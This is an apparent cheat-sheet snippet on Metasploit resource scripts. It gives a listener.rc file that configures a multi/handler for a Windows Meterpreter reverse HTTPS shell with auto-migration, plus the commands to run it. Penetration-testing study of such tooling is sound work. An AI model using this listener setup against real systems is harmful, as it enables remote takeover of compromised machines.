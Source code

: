[Resource scripts](https://docs.rapid7.com/metasploit/resource-scripts/) can chain together a series of Metasploit console commands and Ruby code.

```bash
msf> makerc ~/Desktop/listener.rc # save commands to resource script


# Each time you run the resource script, these commands will be executed exactly the same each time.
$ cat listener.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.119.4
set LPORT 443
set AutoRunScript post/windows/manage/migrate 
set ExitOnSession false
run -z -j


# execute script outside or inside msf
$ sudo msfconsole -r listener.rc
msf> resource listener.rc
```
